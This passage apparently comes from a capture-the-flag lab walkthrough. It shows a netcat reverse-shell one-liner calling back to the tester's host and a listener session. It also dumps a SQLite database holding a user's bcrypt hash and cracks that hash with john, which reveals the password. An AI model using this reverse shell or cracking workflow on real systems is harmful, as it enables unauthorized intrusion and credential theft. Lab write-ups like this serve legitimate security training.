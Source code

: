 Simply get a shell by executing a reverse shell command and running a netcat listener.

```javascript
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 9999 >/tmp/f
```

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.239] 41778
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/home/svc
$ cd /home
$ ls
joshua
svc
```

It seems like we need to find a way to `joshua` user. 

Found a `ticket.db` file after enumerating around.

```bash
$ pwd
/var/www/contact
$ ls
index.js
package.json
package-lock.json
templates
tickets.db
$ cat tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open$
```

Crack the credentials found using `john`.

```bash
$ cat joshua_hash
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
$ john joshua_hash --wordlist=/usr/share/wordlists/rockyou.txt
...
spongebob1       (?)     
```

